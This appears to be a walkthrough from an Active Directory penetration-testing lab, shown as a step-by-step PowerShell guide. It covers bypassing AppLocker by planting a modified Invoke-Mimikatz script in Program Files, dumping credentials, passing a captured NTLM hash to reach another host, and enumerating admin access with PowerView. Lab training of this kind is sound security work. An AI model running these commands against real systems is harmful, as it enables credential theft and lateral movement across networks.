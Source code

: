 you’re working on bypassing AppLocker policies and executing scripts with elevated privileges. Here's how you can perform these tasks in an organized manner:

## App Locker Policy and Executing Scripts

### Step 1: Access and Verify Language Mode
```powershell
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv.dollarcorp.moneycorp.local
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $ExecutionContext.SessionState.LanguageMode
```

### Step 2: Check AppLocker Policy
```powershell
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Step 3: Prepare Script for Execution
#### Modify Invoke-Mimikatz.ps1 to Invoke-MimikatzEx.ps1
```plaintext
1. Create a copy of Invoke-Mimikatz.ps1 and rename it to Invoke-MimikatzEx.ps1.
2. Open Invoke-MimikatzEx.ps1 in PowerShell ISE.
3. Add `Invoke-Mimikatz` to the end of the file.
```

### Step 4: Transfer Script to Target Server
```powershell
PS C:\AD\Tools> Enter-PSSession -Session $sess
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\> cd '.\Program Files\'
PS C:\AD\Tools> Copy-Item .\Invoke-MimikatzEx.ps1 '\\dcorp-adminsrv.dollarcorp.moneycorp.local\C$\Program Files\'
PS C:\AD\Tools> Enter-PSSession -Session $sess
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
```

### Step 5: Execute Script
```powershell
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-MimikatzEx.ps1
```

### Step 6: Use Extracted Hashes to Access Other Machines
#### Example: Using srvadmin Hash to Access dcorp-mgmt
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe""'
PS C:\Windows\system32> Enter-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\srvadmin\Documents> Invoke-Mimikatz
```

### Step 7: Confirm Access and Dump Hashes
```powershell
PS C:\Windows\system32> powershell -ep bypass
PS C:\> . .\PowerView.ps1
PS C:\> Invoke-UserHunter -CheckAccess
PS C:\> Find-LocalAdminAccess
PS C:\> Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {whoami;hostname}
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\srvadmin\Documents> Invoke-Mimikatz
```

